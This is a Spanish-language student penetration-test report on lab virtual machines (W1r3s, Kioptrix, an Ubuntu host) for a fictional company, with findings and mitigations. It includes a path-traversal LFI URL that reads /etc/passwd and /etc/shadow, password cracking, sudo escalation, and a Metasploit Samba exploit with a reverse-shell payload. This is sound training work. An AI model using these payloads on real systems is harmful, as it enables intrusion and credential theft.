# Informe de Pruebas de Penetración - [Pata de Palo Corp]

- **Preparado por:** IES Rafael Alberti - CETI 
-  **Grupo 2:** 

    - Félix Sánchez González
    - Francisco Javier Rodriguez
    - Santiago Domínguez Gómez

---

## Índice

1. [Introducción](#1-introducción)  
2. [Descargo de responsabilidad](#2-descargo-de-responsabilidad)  
3. [Información de contacto](#3-información-de-contacto)  
4. [Resumen Ejecutivo](#4-resumen-ejecutivo)  
5. [Escaneos de Servicios](#5-escaneos-de-servicios)  
6. [Informe Técnico](#6-informe-técnico)  
7. [Resumen de Vulnerabilidades](#7-resumen-de-vulnerabilidades-y-nivel-de-riesgo)  
8. [Resultados Técnicos](#8-resultados-técnicos-detallados)  
9. [Recomendaciones Generales](#9-recomendaciones-generales-de-seguridad)    
10. [Conclusión](#10-conclusión)

---

# 1. Introducción

Este informe documenta los resultados de la evaluación de seguridad realizada sobre la infraestructura de la empresa Pata de Palo Corp. con el objetivo de identificar vulnerabilidades explotables, determinar su nivel de riesgo e informar de forma clara sobre su impacto potencial.

La evaluación se desarrolló en un entorno controlado a partir de tres máquinas virtuales facilitadas por la empresa. Las pruebas simulan el comportamiento de un atacante con el fin de detectar fallos que pudieran comprometer la confidencialidad, integridad o disponibilidad de los sistemas analizados.

El informe detalla cada una de las vulnerabilidades identificadas, los métodos empleados para su detección y explotación, y las recomendaciones técnicas específicas para reducir o eliminar los riesgos observados. Se han respetado en todo momento los límites acordados con la organización para garantizar que la integridad de los sistemas no se viese afectada durante el proceso.

## 1.1 Objetivos

Los objetivos específicos acordados para esta evaluación de seguridad fueron los siguientes:

- Identificar vulnerabilidades explotables en los sistemas y servicios accesibles en la red interna del entorno de preproducción.
- Evaluar la seguridad de los servidores web, FTP, SSH y servicios críticos como MySQL y Samba desde la perspectiva de un atacante sin credenciales.
- Determinar el nivel de exposición derivado del uso de software desactualizado o con configuraciones inseguras.
- Verificar la presencia de cifrados débiles, certificados digitales no confiables y protocolos obsoletos en los servicios expuestos.
- Proporcionar un análisis técnico detallado de las vulnerabilidades detectadas, incluyendo su criticidad y posibles vectores de explotación.
- Emitir recomendaciones de mitigación para reducir la superficie de ataque y mejorar la postura de seguridad del entorno evaluado.

## 1.2 Alcance

La evaluación de seguridad se llevó a cabo en el entorno de **preproducción**, con el objetivo de identificar vulnerabilidades en sistemas accesibles en la red interna simulada del laboratorio. La evaluación incluyó los siguientes elementos:

**Direcciones IP / Rangos:**

- Manquina Ubuntu - `10.0.2.133`
- Maquina W1r3s - `10.0.2.135`
- Maquina Kiotrix - `10.0.2.11`

**Sistemas Operativos:**

- Ubuntu Linux (versiones obsoletas, como 14.04.x)
- Distribuciones Linux genéricas detectadas por fingerprinting
- Kioptrix (sistema simulado con múltiples servicios vulnerables)
---

**Fuera del Alcance:**

- Sistemas de terceros alojados fuera de la infraestructura de laboratorio.
- Ataques de denegación de servicio (DoS/DDoS) destructivos.
- Técnicas de ingeniería social.
- Evaluaciones autenticadas (no se proporcionaron credenciales para accesos privilegiados).

## 1.3 Límites

Durante la evaluación de seguridad se establecieron los siguientes límites para garantizar la continuidad operativa del entorno y evitar afectaciones no deseadas (confirmar/ajustar según acuerdo con el cliente):

*   No se realizaron ataques de denegación de servicio (DoS) sobre sistemas en producción, salvo en entornos controlados o copias virtualizadas proporcionadas por el cliente.
*   No se realizaron modificaciones persistentes en los sistemas auditados (cambios en configuraciones, usuarios, servicios, etc.) sin consentimiento explícito.
*   No se accedió ni se alteró información sensible de usuarios reales, tales como datos personales, financieros o de clientes finales, salvo autorización expresa.
*   No se comprometieron sistemas fuera del alcance definido en el acuerdo inicial.
*   No se emplearon técnicas de ingeniería social ni phishing como parte del alcance de esta evaluación (a menos que se acordara lo contrario).
*   No se utilizaron herramientas o técnicas destructivas, como wiping de discos, corrupción de base de datos o ransomware.

Estos límites fueron definidos en conjunto con el cliente para asegurar que las pruebas se realizaran de forma ética, segura y controlada.

## 1.4 Metodología

**Metodología para Pentesting Black-Box**
El enfoque adoptado **backbox**, basado en estándares de la industria como  PTES  evalúa la seguridad simulando un ataque de la externo sin conocimiento previo. A continuación, se detallan las etapas del proceso:

### Reconocimiento Inicial
En esta fase se recopila información sobre los objetivos para identificar servicios expuestos y posibles puntos de entrada. Se utilizan herramientas como `Nmap` para escanear puertos, identificar servicios y versiones. Se analizan servicios específicos [SMB, RDP, HTTP, etc.] y se buscan directorios/archivos ocultos con herramientas como `Gobuster`.

### Análisis de Vulnerabilidades
Tras identificar los servicios, se evalúan vulnerabilidades potenciales. Se combinan análisis automatizados (`Nessus`, `OpenVAS`) con validaciones manuales, investigando versiones de software/OS y buscando CVEs conocidas.

### Explotación
Se intenta comprometer los sistemas aprovechando las vulnerabilidades identificadas. Se usan frameworks como`Metasploit`, scripts personalizados, fuerza bruta `Hydra`, o explotación de configuraciones inseguras para obtener acceso inicial.

### Post-explotación
Tras el acceso inicial, se busca maximizar el impacto: escalada de privilegios , extracción de datos sensibles, movimiento lateral, y establecimiento de persistencia (si está autorizado).

### Rules of Engagement (RoE)

**Protección del Cliente**
*   No se modificarán servicios críticos sin autorización previa.
*   Todas las modificaciones realizadas serán documentadas y revertidas al finalizar.
*   Los datos sensibles descubiertos solo se utilizarán si está explícitamente permitido.
*   La información confidencial será enmascarada/anonimizada en el informe final.
*   Todos los datos recopilados serán encriptados y destruidos tras la aceptación del informe, según lo acordado.

**Protección del Equipo Evaluador**
*   El contrato/declaración de trabajo confirma que las acciones se ejecutan en nombre del cliente.
*   Se revisaron las políticas de seguridad relevantes del cliente.
*   Se verificaron las regulaciones aplicables a los datos del cliente ([GDPR, HIPAA, etc.]).
*   Se acordó un protocolo de actuación en caso de detectar compromiso por terceros.

---

# 2. Descargo de responsabilidad

Este informe ha sido elaborado con base en la evaluación de seguridad realizada sobre los sistemas especificados por `Pata de palo Corp`. Los hallazgos, conclusiones y recomendaciones presentadas reflejan las condiciones observadas en el momento de la evaluación *07/04/2025 - 13/04/2025*. ***SECURE SHIELD PENTESTING S.L.*** no se hace responsable por cualquier uso indebido, interpretación errónea o acción que se derive de la información contenida en este informe. La organización auditada es responsable de evaluar y tomar las medidas que considere necesarias para mitigar los riesgos identificados. La seguridad es un proceso continuo y este informe representa una instantánea en el tiempo.

---

# 3. Información de contacto

| Campo               | Detalle                                               |
|---------------------|-------------------------------------------------------|
| **Grupo**           | Grupo 2                                               |
| **Dirección**       | C. Amiel, s/n, 11012 Barriada de la Paz, Cádiz        |
| **Contacto Principal** | Grupo 2                                            |
| **Email**           | Grupo2@gmail.com                                      |
| **Teléfono**        | +34 999 99 99 99                                       |

---

# 4. Resumen Ejecutivo

### 4.1 Antecedentes

La empresa *Pata de Palo Corp.* solicitó al equipo auditor la realización de una prueba de penetración de tipo **interna y controlada**, orientada a evaluar el nivel de seguridad de tres máquinas virtuales representativas de su infraestructura. El objetivo principal fue identificar debilidades técnicas que pudieran ser explotadas por un atacante, medir su impacto y proponer medidas de mitigación eficaces.  

La evaluación se llevó a cabo entre el **03-04-2025** y el **13-04-2025**, aplicando técnicas manuales y automatizadas conforme a metodologías reconocidas del sector.

---

### 4.2 Postura General

La evaluación reveló una **postura de seguridad general débil** en los sistemas analizados. Se identificaron múltiples vulnerabilidades críticas y altas, derivadas principalmente de:

*   **Software obsoleto y sin parches:** Servicios clave como servidores web (Apache), FTP (ProFTPD), SSH (OpenSSH), Samba e incluso el kernel del sistema operativo presentaban versiones antiguas con vulnerabilidades públicamente conocidas y explotables.
*   **Configuraciones inseguras:** Se detectaron configuraciones por defecto, permisos excesivos (como `sudo` sin restricciones), y protocolos inseguros habilitados (FTP en texto claro).
*   **Gestión de credenciales deficiente:** Se encontraron credenciales por defecto y contraseñas débiles que pudieron ser obtenidas o crackeadas fácilmente.

Esta combinación de factores permitió al equipo auditor obtener **acceso inicial remoto** a los sistemas y, posteriormente, **escalar privilegios hasta obtener control total (root)** en todas las máquinas evaluadas, demostrando un riesgo significativo para la confidencialidad, integridad y disponibilidad.

---

### 4.3 Perfil de Riesgo

El entorno evaluado presenta un perfil de riesgo general **ALTO**, debido a la combinación de factores siguientes:

- Múltiples vulnerabilidades explotables de forma remota o local  
- Falta de medidas efectivas de contención una vez obtenido acceso inicial  
- Impacto directo en la confidencialidad e integridad de los sistemas

**Distribución de Vulnerabilidades Validadas por Nivel de Riesgo:**

Estas vulnerabilidades se han contabilizado de los escaneos de Nessus.

Para descargar los informes completos:
- [kioptrix](analisis-nessus/w1r3es.pdf)
- [w1r3es](analisis-nessus/Kioptrix.pdf)
- [ms3-ubuntu](analisis-nessus/msubuntu.pdf)

### 4.3 Perfil de Riesgo

El entorno evaluado presenta un perfil de riesgo general **ALTO**. Esta evaluación se basa principalmente en las **vulnerabilidades confirmadas y explotadas manualmente** durante la prueba, las cuales demostraron un impacto directo en la confidencialidad e integridad de los sistemas.

Para ofrecer una visión completa, a continuación se presentan dos resúmenes: primero, los resultados agregados de los escaneos automatizados (Nessus), que indican debilidades *potenciales*; segundo, el resumen de las vulnerabilities *validadas y/o explotadas* durante la prueba de penetración manual, que representan el riesgo confirmado.

**Resultados Agregados del Escaneo Automatizado (Nessus):**

Los escaneos automatizados con Nessus identificaron un total de 253 hallazgos potenciales distribuidos de la siguiente manera en las tres máquinas:

| Nivel de Riesgo (Nessus) | Total Agregado (Escaneo) | Representación Visual (Proporcional Aprox.) |
| :----------------------- | :----------------------- | :------------------------------------------ |
| 🟥 Crítico               | 19                       | ▓▓                                          |
| 🟧 Alto                  | 34                       | ▓▓▓▓                                        |
| 🟨 Medio                 | 52                       | ▓▓▓▓▓▓                                      |
| 🟩 Bajo                   | 15                       | ▓▓                                          |
| ℹ️ Informativo          | 133                      | ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                            |
| **Total (Nessus)**       | **253**                  |                                             |

*Nota: Estos números representan el resultado bruto del escáner y pueden incluir falsos positivos o hallazgos de bajo impacto real. Los informes detallados de Nessus por máquina se pueden descargar aquí:*

*   [Informe Nessus - Kioptrix (`192.168.1.104`)](analisis-nessus/Kioptrix.pdf)
*   [Informe Nessus - W1r3s (`10.0.2.135`)](analisis-nessus/w1r3es.pdf)
*   [Informe Nessus - Ubuntu (`10.0.2.133`)](analisis-nessus/msubuntu.pdf)

---

**Vulnerabilidades Validadas y/o Explotadas Manualmente:**

De los hallazgos potenciales, el equipo auditor **validó y/o explotó con éxito 22 vulnerabilidades significativas** que representan un riesgo tangible y confirmado para la organización. Estas son las vulnerabilidades que se detallan en las secciones técnicas (6, 7 y 8) de este informe y que fundamentan la evaluación de riesgo ALTO:

| Nivel de Riesgo (Validado) | Total Validado/Explotado | Representación Visual (Proporcional Aprox.) |
| :------------------------- | :----------------------- | :------------------------------------------ |
| 🟥 Crítico                 | 13                       | ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                          |
| 🟧 Alto                    | 8                        | ▓▓▓▓▓▓▓▓▓▓▓                                 |
| 🟨 Medio                   | 1                        | ▓                                           |
| 🟩 Bajo                    | 0                        |                                             |
| ℹ️ Informativo            | 0                        |                                             |
| **Total (Validado)**       | **22**                   |   

### 4.4 Hallazgos Principales

Los hallazgos más impactantes que contribuyen al perfil de riesgo alto incluyen:

1.  **Ejecución Remota de Código (RCE):** Múltiples servicios (Samba, ProFTPD, Apache/mod_ssl, Drupal, UnrealIRCd, Ruby on Rails) permitieron la ejecución de comandos arbitrarios de forma remota, llevando al compromiso inicial.
2.  **Credenciales Débiles y por Defecto:** El uso de contraseñas predecibles o por defecto facilitó el acceso directo a través de SSH y la obtención de información mediante LFI/SQLi.
3.  **Escalada de Privilegios Sencilla:** Configuraciones incorrectas de `sudo`, vulnerabilidades locales del kernel (ptrace-kmod) y pertenencia a grupos peligrosos permitieron obtener privilegios de `root` fácilmente tras el acceso inicial.
4.  **Exposición de Información Sensible:** Vulnerabilidades como Local File Inclusion (LFI) y SQL Injection (SQLi) permitieron extraer archivos de configuración, credenciales y contenido de bases de datos.
5.  **Uso de Software Obsoleto :** Versiones antiguas de OpenSSL, OpenSSH y Apache presentaban vulnerabilidades críticas conocidas.

### 4.5 Resumen de Recomendaciones Estratégicas

Para mitigar los riesgos identificados y mejorar significativamente la postura de seguridad, se recomienda priorizar las siguientes acciones estratégicas:

1.  **Implementar un Programa de Gestión de Vulnerabilidades y Parches:** Actualizar urgentemente todo el software obsoleto (SO, servicios, aplicaciones) y establecer un ciclo regular de escaneo y parcheo.
2.  **Reforzar la Gestión de Identidades y Accesos:** Eliminar credenciales por defecto, implementar políticas de contraseñas robustas, forzar el uso de claves SSH, auditar y aplicar el principio de mínimo privilegio en permisos (`sudo`).
3.  **Realizar Hardening de Sistemas y Servicios:** Asegurar las configuraciones de todos los servicios expuestos, deshabilitar protocolos y funcionalidades innecesarias, y aplicar guías de buenas prácticas de seguridad.
4.  **Mejorar la Segmentación de Red y Controles de Acceso:** Limitar la exposición de servicios críticos únicamente a las redes y usuarios que lo requieran estrictamente mediante firewalls y ACLs.
5.  **Establecer Capacidades de Monitorización y Respuesta:** Implementar logging detallado y monitorización de eventos de seguridad para detectar y responder a actividades sospechosas o intentos de compromiso.

---

# 5. Escaneos de Servicios

Se realizaron escaneos de puertos y servicios utilizando herramientas como `Nmap` sobre el alcance definido. Los resultados más relevantes se resumen a continuación:

### **Host: [10.0.2.11/Kioptrix]**

### **Observaciones Generales del Escaneo:**

- Como se puede observar en el escaneo realizado a la dirección IP `10.0.2.11`, el sistema presenta 6 puertos abiertos que exponen diversos servicios, incluyendo `SSH, HTTP, HTTPS, Samba y servicios RPC`. Varias de las versiones detectadas, como `OpenSSH 2.9p2 y Apache 1.3.20 con OpenSSL 0.9.6b`, son conocidas por tener vulnerabilidades documentadas. 

- A partir de estos resultados, se iniciará el análisis detallado de cada servicio para identificar posibles fallos de seguridad aprovechables. Una vez confirmada la existencia de versiones vulnerables, se procederá con su explotación para evaluar el impacto que un atacante podría lograr sobre la máquina objetivo.

---
### **Host: [10.0.2.133/Ubuntu]**

### **Observaciones Generales del Escaneo:**

- El escaneo realizado al host 10.0.2.133 mostró ocho puertos abiertos que revelan una exposición significativa de servicios, entre ellos `FTP, SSH, HTTP, Samba, impresión (CUPS), base de datos MySQL`, y servidores web adicionales como WEBrick y un demonio IRC. Las versiones detectadas, como `ProFTPD 1.3.5, OpenSSH 6.6.1p1, Apache 2.4.7, MySQL sin autenticación y WEBrick 1.3.1 con Ruby 2.3.8`, han estado asociadas a múltiples vulnerabilidades en el pasado. 

- Esta combinación de servicios en ejecución, junto con configuraciones por defecto y software sin actualizar, sugiere una superficie de ataque extensa. Se procederá al análisis detallado de cada componente expuesto para determinar su nivel de riesgo real. En caso de confirmarse vulnerabilidades explotables, se pasará a la fase de explotación para verificar su impacto sobre el sistema.

--- 

### **Host: [10.0.2.135/W1r3s]**

### **Observaciones Generales del Escaneo:**

- El escaneo realizado al host 10.0.2.135 reveló cuatro puertos abiertos correspondientes a servicios FTP, SSH, HTTP y MySQL. Se identificaron versiones específicas como vsftpd 2.0.8, OpenSSH 7.2p2, Apache 2.4.18 y una instancia de MySQL accesible pero no autenticada. Estas versiones han sido objetivo de múltiples investigaciones de seguridad y podrían presentar vulnerabilidades conocidas. 

- A partir de esta información, se procederá al análisis individual de cada servicio con el fin de detectar posibles vectores de ataque. En caso de confirmar la presencia de software vulnerable, se pasará a la fase de explotación para comprobar el nivel de acceso que un atacante podría lograr en el sistema.

---

# 6. Informe Técnico

 A continuación, se detallan las vulnerabilidades identificadas y explotadas durante la evaluación.

# **Vulnerabilides identificadas en el sistema W1r3s**

## Vulnerabilidad 1: Cuppa CMS - Local File Inclusion (LFI)

### Identificación

| Campo                      | Detalle                                                                 |
|----------------------------|-------------------------------------------------------------------------|
| **Puerto(s) / Servicio(s)** | 80/tcp - Apache httpd 2.4.18                                            |
| **Herramienta(s) de Detección** | gobuster                                                          |
| **Descripción Breve**      | La instalación de Cuppa CMS permite acceso no autorizado a archivos del sistema mediante manipulación de rutas. |

### Descripción

| Campo                     | Detalle                                                                 |
|---------------------------|-------------------------------------------------------------------------|
| **Tipo**                  | Inyección                                                               |
| **CWE**                   | [CWE-22](https://cwe.mitre.org/data/definitions/22.html) – Improper Limitation of a Pathname to a Restricted Directory |
| **Gravedad**              | Alta                                                                    |
| **Vector de Ataque**      | Remoto                                                                  |
| **Requiere Autenticación**| No                                                                      |
| **Impacto Potencial**     | Lectura de archivos sensibles del sistema, posible revelación de credenciales y datos confidenciales, base para posteriores ataques. |

### Detalles Técnicos

| Campo          | Detalle                                                                                                                                                      |
|----------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **Componente** | `alertConfigField.php`                                                                                                                                        |
| **Parámetro**  | `urlConfig`                                                                                                                                                   |
| **Descripción**| No se valida correctamente el parámetro, lo que permite realizar path traversal y acceder a archivos fuera del directorio raíz. [Exploit-DB 25971](https://www.exploit-db.com/exploits/25971) |

### Explotación

| Campo        | Detalle                                                                                                                                                      |
|--------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **URL**      | `http://ip/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`                                                        |
| **Resultado**| Lectura exitosa de archivos como `/etc/passwd` y `/etc/shadow`, evidenciando acceso no autorizado a contenido sensible del sistema.                          |
| **Evidencia**|                                              |

### Sistemas Afectados

| Campo            | Detalle     |
|------------------|-------------|
| **Servidor**     | W1R3S       |
| **Dirección IP** | 10.0.2.135  |

### Mitigación

- Actualizar Cuppa CMS a una versión corregida  
- Implementar validación estricta de parámetros en URLs  
- Restringir el acceso a archivos sensibles desde el servidor web  
- Aplicar el principio de mínimo privilegio al usuario del servicio web  

## Vulnerabilidad 2: Credenciales débiles de usuario del sistema

### Identificación

| Campo                      | Detalle                                        |
|----------------------------|------------------------------------------------|
| **Puerto(s) / Servicio(s)** | 22/tcp - OpenSSH 7.2p2                         |
| **Herramienta(s) de Detección** | John the Ripper                          |
| **Descripción Breve**      | Contraseña del usuario w1r3s fácilmente crackeada. |

### Descripción

| Campo                     | Detalle                                                                 |
|---------------------------|-------------------------------------------------------------------------|
| **Tipo**                  | Configuración insegura / credenciales débiles                          |
| **CWE**                   | [CWE-521](https://cwe.mitre.org/data/definitions/521.html) – Weak Password Requirements |
| **Gravedad**              | Alta                                                                    |
| **Vector de Ataque**      | Remoto                                                                  |
| **Requiere Autenticación**| Sí (credenciales obtenidas)                                             |
| **Impacto Potencial**     | Acceso no autorizado al sistema como usuario w1r3s, punto de entrada para escalada de privilegios. |

### Detalles Técnicos

| Campo         | Detalle                                                                                                           |
|---------------|-------------------------------------------------------------------------------------------------------------------|
| **Usuario**   | `w1r3s`                                                                                                            |
| **Contraseña**| `******`                                                                                                        |
| **Método**    | El archivo `/etc/shadow` fue obtenido mediante LFI. Posteriormente, se usó John the Ripper para crackear la contraseña. |

### Explotación

| Campo        | Detalle                                                                                                                           |
|--------------|-----------------------------------------------------------------------------------------------------------------------------------|
| **Proceso**  | Los archivos `/etc/passwd` y `/etc/shadow` se extrajeron mediante LFI. Se utilizó John the Ripper para recuperar la contraseña. |
| **Resultado**| Acceso SSH exitoso con las credenciales obtenidas.                                                                                |
| **Evidencia**|    |

### Sistemas Afectados

| Campo         | Detalle     |
|---------------|-------------|
| **Usuario**   | w1r3s       |
| **Servidor**  | W1R3S       |

### Mitigación

- Implementar políticas de contraseñas fuertes  
- Aplicar rotación periódica de contraseñas  
- Considerar autenticación multifactor  
- Limitar intentos fallidos de autenticación por SSH  
              

## Vulnerabilidad 3: Configuración insegura de sudo

### Identificación

| Campo                      | Detalle                          |
|----------------------------|----------------------------------|
| **Puerto(s) / Servicio(s)** | Sistema local                    |
| **Herramienta(s) de Detección** | Comando `sudo -l`           |
| **Descripción Breve**      | El usuario w1r3s tiene permisos para ejecutar cualquier comando como root. |

### Descripción

| Campo                     | Detalle                                                                 |
|---------------------------|-------------------------------------------------------------------------|
| **Tipo**                  | Configuración insegura de privilegios                                   |
| **CWE**                   | [CWE-250](https://cwe.mitre.org/data/definitions/250.html) – Execution with Unnecessary Privileges |
| **Gravedad**              | Media                                                                   |
| **Vector de Ataque**      | Local                                                                   |
| **Requiere Autenticación**| Sí (acceso como usuario w1r3s)                                          |
| **Impacto Potencial**     | Escalada de privilegios a root, control total del sistema.              |

### Detalles Técnicos

| Campo        | Detalle                                                                 |
|--------------|-------------------------------------------------------------------------|
| **Configuración** | `(ALL : ALL) ALL` en la política de sudoers para el usuario w1r3s. |

### Explotación

| Campo        | Detalle                                                                                     |
|--------------|---------------------------------------------------------------------------------------------|
| **Procedimiento** | Tras acceder como w1r3s, se ejecutó `sudo -l` y luego `sudo bash` para obtener acceso root. |
| **Evidencia**     |  |

### Sistemas Afectados

| Campo        | Detalle   |
|--------------|-----------|
| **Servidor** | W1R3S     |

### Mitigación

- Configurar sudo para permitir solo los comandos necesarios  
- Aplicar el principio de mínimo privilegio  
- Implementar auditoría de los comandos ejecutados mediante sudo  
- Revisar periódicamente la configuración de sudoers  

## Vulnerabilidad 4: FTP - Transmisión de Credenciales en Texto Claro

### Identificación

| Campo                      | Detalle         |
|----------------------------|-----------------|
| **Puerto(s) / Servicio(s)** | 21/tcp - FTP    |
| **Herramienta(s) de Detección** | Wireshark  |

### Descripción Breve

El protocolo FTP utilizado en el sistema transmite credenciales y datos sin cifrado, lo que permite su interceptación por atacantes mediante técnicas de sniffing.

### Descripción

| Campo                     | Detalle                                                                 |
|---------------------------|-------------------------------------------------------------------------|
| **Tipo**                  | Uso de protocolo inseguro                                               |
| **CWE**                   | [CWE-319](https://cwe.mitre.org/data/definitions/319.html) – Cleartext Transmission of Sensitive Information |
| **Gravedad**              | Alta                                                                    |
| **Vector de Ataque**      | Remoto                                                                  |
| **Requiere Autenticación**| Sí (credenciales interceptadas)                                        |
| **Impacto Potencial**     | Interceptación de credenciales, acceso no autorizado a datos sensibles y compromisos adicionales del sistema. |

### Detalles Técnicos

| Campo        | Detalle                                                                                                  |
|--------------|----------------------------------------------------------------------------------------------------------|
| **Protocolo**| FTP                                                                                                      |
| **Descripción** | Al no incorporar cifrado, FTP expone el nombre de usuario y la contraseña durante la autenticación. Comprobado mediante captura con `tcpdump`. |

### Explotación

| Campo        | Detalle                                                                                                   |
|--------------|-----------------------------------------------------------------------------------------------------------|
| **Procedimiento** | Mediante análisis de tráfico en Wireshark, se observaron las credenciales en texto claro durante el proceso de autenticación. |
| **Evidencia**     |  |

### Sistemas Afectados

| Campo        | Detalle   |
|--------------|-----------|
| **Servidor** | W1R3S     |

### Mitigación

- Migrar a protocolos seguros como FTPS (FTP sobre SSL/TLS) o SFTP (parte del paquete SSH).
- Configurar el servidor FTP para deshabilitar accesos inseguros.
- Implementar autenticación multifactor para mayor seguridad.
- Utilizar herramientas de monitoreo para identificar intentos de acceso no autorizados.

### Mitigación

- Migrar a protocolos seguros como FTPS (FTP sobre SSL/TLS) o SFTP (parte del paquete SSH).
- Configurar el servidor FTP para deshabilitar accesos inseguros.
- Implementar autenticación multifactor para mayor seguridad.
- Utilizar herramientas de monitoreo para identificar intentos de acceso no autorizados.

# **Vulnerabilides identificadas en el sistema kioptrix LVL1**

## Vulnerabilidad 4: Samba Trans2Open - Ejecución de código remoto

### Identificación

| **Campo**                 | **Detalle**                          |
|---------------------------|---------------------------------------|
| **Puerto(s) / Servicio(s)** | 445 / Samba 2.2.1a                        |
| **Herramienta(s) de Detección** | Metasploit (módulo `linux/samba/trans2open`) |
| **Descripción Breve**      | Vulnerabilidad que permite la ejecución de código remoto en el servidor a través de Samba. |

### Descripción

| **Campo**                 | **Detalle**                                                                            |
|---------------------------|----------------------------------------------------------------------------------------|
| **Tipo**                  | Ejecución remota de código                                                            |
| **CVE**                   | [CVE-2003-0201](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0201)          |
| **Gravedad**              | Alta                                                                                   |
| **Vector de Ataque**      | Remoto                                                                                 |
| **Requiere Autenticación**| No                                                                                     |
| **Impacto Potencial**     | Control total de la máquina.                       |

### Detalles Técnicos

| **Campo**                 | **Detalle**                                                                            |
|---------------------------|----------------------------------------------------------------------------------------|
| **Configuración**         | Samba vulnerable que permite acceso a través del módulo `trans2open` en sistemas Linux. |
| **Payload utilizado**     | `linux/x86/shell/reverse_tcp`                                                          |

### Explotación

| **Campo**                 | **Detalle**                                                                            |
|---------------------------|----------------------------------------------------------------------------------------|
| **Procedimiento**         | Se ejecutó el exploit en Metasploit definiendo el payload de reverse shell y la IP objetivo. Se obtuvo una sesión como root. |
| **Evidencia**             | |

### Sistemas Afectados

| **Campo**                 | **Detalle**          |
|---------------------------|----------------------|
| **Servidor**              | Kioptrix Nivel 1    |

### Mitigación

- Actualizar Samba a una versión no vulnerable.  
- Restringir el acceso al puerto 445 desde fuentes no confiables.  
- Implementar políticas de acceso estrictas para servicios compartidos.  
- Monitorear actividad sospechosa en servidores Samba y aplicar prácticas de hardening.

## Vulnerabilidad: ptrace-kmod - Escalada de Privilegios Local

### Identificación

| **Campo**                 | **Detalle**                          |
|---------------------------|---------------------------------------|
| **Puerto(s) / Servicio(s)** | 443 / Apache 1.3.20 (mod_ssl) |
| **Herramienta(s) de Detección** | OpenFuck (exploit inicial para acceso), ptrace-kmod.c (escalada local) |
